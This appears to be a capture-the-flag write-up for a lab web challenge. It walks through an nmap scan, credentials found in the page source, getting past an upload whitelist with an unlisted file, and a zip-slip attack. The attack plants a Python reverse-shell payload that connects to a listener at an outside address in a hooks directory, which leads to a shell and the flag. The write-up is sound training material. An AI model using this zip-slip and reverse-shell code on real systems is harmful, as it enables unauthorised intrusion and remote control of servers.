




<div align="center">


# The Hollow Shell

#Web

</div>

---

```bash
nmap -sV -sC 10.114.149.8 -oN nmap.txt
```

I can find Gunicorn running a http server on port 5000. This is python based.

I am brought to a log in page:



By looking at the page source code I can find the credentials for the account:
```
concierge:StayNoticed2024!
```


I can upload a zip file.
* It must contain a **shell.json** manifest file listing its assets.
* Allowed asset types: **png, jgp, gif, svg, css, json**.

I create a empty PNG file:

```bash
printf '\x89PNG\r\n\x1a\n' > test.png
# this is the same as
printf '\x89\x50\x4e\x47\x0d\x0a\x1a\x0a' > test.png
```

These bytes are the **magic bytes** for a PNG image. 
* The first 8 bytes that determine the file type.

```bash
echo "{"assets":"test.png"}" > shell.json
zip shell.zip shell.json test.png
```

I try to upload the `shell.zip` file but I get the error: "shell.json could not be parsed".

Ah, I used `"` for the entire string in echo when it should be `'`.

```bash
echo '{"assets":"test.png"}' > shell.json
```

Now I get the error: "Shell rejected: shell.json is missing a 'name'".
* So lets add that field.

```bash
echo '{"name":"shell","assets":"test.png"}' > shell.json
zip shell.zip shell.json test.png
```

Raaahh, now I get the error: "Shell rejected: 'assets' must be a list".
* Lesss fix it:
```bash
echo '{"name":"shell","assets":["test.png"]}' > shell.json
zip shell.zip shell.json test.png
```

Success!



The shell was uploaded to the relative patj `shells/some_string/`.

Since we know that the website is python-based, I will try for RCE with a python script.

```bash
cat > test.py << eof
> print("Hello world!")
> eof
```

But will this be accepted? `.py` files are not in the whitelist.

```bash
echo '{"name":"shell","assets":["test.png","test.py"]}' > shell.json
zip shell.zip test.png test.py shell.json
```

Nah, I get: "asset type not allowed: test.py"

Do I need to add it into the asset list?

Hah, I remove `test.py` from the asset list but still keep it in the zip file and it gets uploaded:

I access the URL `http://10.114.149.8:5000/shells/b4027dedd0cd/test.py` and I can see the script:



But it is just the raw file...

Atleast we know we can upload python scripts.

Ah, I look at the "hint":

```
A shell may include optional automation hooks - the theme worker applies these for you shortly after the shell comes ashore, so you don't have to touch each tablet by hand.
```

This reminds me of the `hooks` directory. Which works like **Git hooks** - `.git/hooks/pre-commit` is a script that will run before each commit. Maybe there is something similar here? A hooks directory which contains scripts that get run on a time intervall.

Can I place the python code inside the `hooks` directory?

**ZIP & SLIP** -attack!

By using `../../../...` I can navigate the filesystem when unzipping the zip file. I notice how my shell gets uploaded to the relative path `shells/string/my_shell`. So if I use 2 `../` I will enter the root directory where the `hooks` directory hopefully is.

I write this `createShell.py` script:
* payload from revshells.com
```python
import zipfile

payload = ('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.192.185",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")')

with zipfile.ZipFile('shell.zip','w') as zipfile:
	zipfile.writestr('test.png','\x89PNG\r\n\x1a\n')
	zipfile.writestr('shell.json','{"name":"shell","assets":["test.png"]}')
	zipfile.writestr('../../hooks/exploit.py',payload)
```

I run `python3 createShell.py` and upload the generated `shell.zip` file to the server.
* I also set up a listener before I upload the zip file.

BOOOM




Shell as roomservice

I can find the flag inside `/home/roomservice/flag.txt`.

```
THM{REDACTED}
```
